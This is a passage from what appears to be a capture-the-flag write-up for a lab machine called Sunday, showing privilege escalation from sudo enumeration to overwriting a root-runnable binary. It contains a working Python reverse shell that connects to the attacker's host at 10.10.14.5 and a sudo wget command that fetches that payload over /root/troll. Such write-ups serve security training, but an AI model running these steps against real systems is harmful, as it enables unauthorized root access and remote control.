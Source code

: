#### Overwrite troll

Enough just getting the flag. I obviously want a root shell.

This was actually how I first solved the box. When enumerating as sunny, I found a binary named troll that sunny could run with sudo without password:

```

sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll

sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)

```

There’s nothing we could do with this as sunny. However, I think the box author expects us to use this file to privesc (hence the [overwrite script](#overwrite)).

So let’s make troll useful. First, on kali, create a shell.py, which is basically a nicely formatted [reverse python shell from pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```

#!/usr/bin/python

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.5",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);

```

Serve it with SimpleHTTPServer, and request `shell.py` with wget, using the `-O` option, which will allow us to specify a file to write the wget output to, and it will overwrite that file if it already exists:

```

sammy@sunday:~$ sudo wget http://10.10.14.5/shell.py -O /root/troll
--01:07:04--  http://10.10.14.5/shell.py
           => `/root/troll'
Connecting to 10.10.14.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 246 [text/plain]

100%[==========================================================================================================================================================================================================>] 246           --.--K/s

01:07:04 (25.59 MB/s) - `/root/troll' saved [246/246]

```
